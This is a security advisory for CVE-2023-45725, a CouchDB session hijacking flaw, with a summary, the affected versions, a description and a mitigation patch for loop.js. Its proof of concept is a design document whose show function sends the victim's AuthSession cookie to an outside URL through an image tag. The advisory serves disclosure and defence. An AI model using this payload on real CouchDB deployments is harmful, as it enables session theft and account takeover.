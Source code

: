 ```yaml
---
description: CVE-2023-45725, MEDIUM, A CouchDB database admin can hijack sessions of arbitrary users when viewing design documents
title: CouchDB Session Hijacking LocalPriv
date_published: "2023-12-14"
last_updated: "2023-12-14"
xray_id: 
vul_id: CVE-2023-45725
cvss: 6.5
severity: medium
discovered_by: Natan Nehorai
type: vulnerability

---
```


## Summary

A CouchDB database admin can hijack sessions of arbitrary users when viewing design documents

## Component

couchdb

## Affected versions

(, 3.3.2], Fixed in 3.3.3

## Description

Design document functions which receive a user http request object may expose authorization or session cookie headers of the user who accesses the document.

These design document functions are:

* list
* show
* rewrite
* update

An attacker can leak the session component using an HTML-like output, insert the session as an external resource (such as an image), or store the credential in a `_local` document with an “update” function.

For the attack to succeed the attacker has to be able to insert the design documents into the database, then manipulate a user to access a function from that design document.

## PoC

Design document example, that leaks the victim's session cookie -

```json
{
    "_id": "_design/giveMeUrSessionPlz",
    "shows":
    {
        "adminme": "function(doc, req){ \\n return '<img src=\"http://localhost:1234/image.png?urAuth='+ req.cookie.AuthSession + '\" />'};"
    },
    "language": "javascript"
}
```



## Vulnerability Mitigations

For versions older than 3.3.3 this patch applied to the loop.js file would also mitigate the issue:

```diff
diff --git a/share/server/loop.js b/share/server/loop.js
--- a/share/server/loop.js
+++ b/share/server/loop.js
@@ -49,6 +49,20 @@ function create_nouveau_sandbox() {
   return sandbox;
 }
​
+function scrubReq(args) {
+  var req = args.pop()
+  if (req.method && req.headers && req.peer && req.userCtx) {
+    delete req.cookie
+    for (var p in req.headers) {
+      if (req.headers.hasOwnProperty(p) && ["authorization", "cookie"].indexOf(p.toLowerCase()) !== -1) {
+        delete req.headers[p]
+      }
+    }
+  }
+  args.push(req)
+  return args
+}
+
 // Commands are in the form of json arrays:
 // ["commandname",..optional args...]\n
 //
@@ -85,7 +99,7 @@ var DDoc = (function() {
         var funPath = args.shift();
         var cmd = funPath[0];
         // the first member of the fun path determines the type of operation
-        var funArgs = args.shift();
+        var funArgs = scrubReq(args.shift());
         if (ddoc_dispatch[cmd]) {
           // get the function, call the command with it
           var point = ddoc;
```



## References

[Vendor advisory](https://docs.couchdb.org/en/stable/cve/2023-45725.html)

